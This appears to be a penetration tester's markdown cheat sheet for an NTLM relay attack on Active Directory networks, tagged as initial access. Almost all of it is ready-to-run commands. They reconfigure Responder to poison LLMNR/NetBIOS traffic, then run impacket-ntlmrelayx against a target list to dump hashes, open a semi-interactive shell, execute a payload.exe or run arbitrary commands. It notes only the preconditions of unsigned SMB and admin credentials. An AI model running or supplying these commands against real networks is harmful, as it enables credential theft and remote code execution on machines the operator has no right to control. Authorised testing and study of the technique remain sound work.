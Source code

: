 ```yaml
---
tags:
  - Initial-Access
  - LLMNR
  - NETBIOS
  - SMB
  - AD
---
```

Relay captures hashes to target machine for various types of access.
- Only works if SMB signing is disabled or "not required"
- Relayed creds MUST be admin on the machine
## Responder + ntlmrelayx
---

Edit responder conf:
```bash
sudo nano /etc/responder/Responder.conf
SMB = On ---> Off
HTTP = on ---> Off
```
Make targets list
```bash
echo "<TargetIP>" > targets.txt
```
Run responder
```bash
sudo responder -I eth0 -wv
```
Start ntlmrelayx with any of these options
**Dump hashes**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support
```
**Get semi-interactive smbexec bind shell** (`nc localhost 11000`)
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
**Execute payload**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -e payload.exe
```
**Execute Command**
```bash
sudo impacket-ntlmrelayx -tf targets.txt -smb2support -c 'whoami'
```
Wait for auth attempt (or coerce auth attempt)
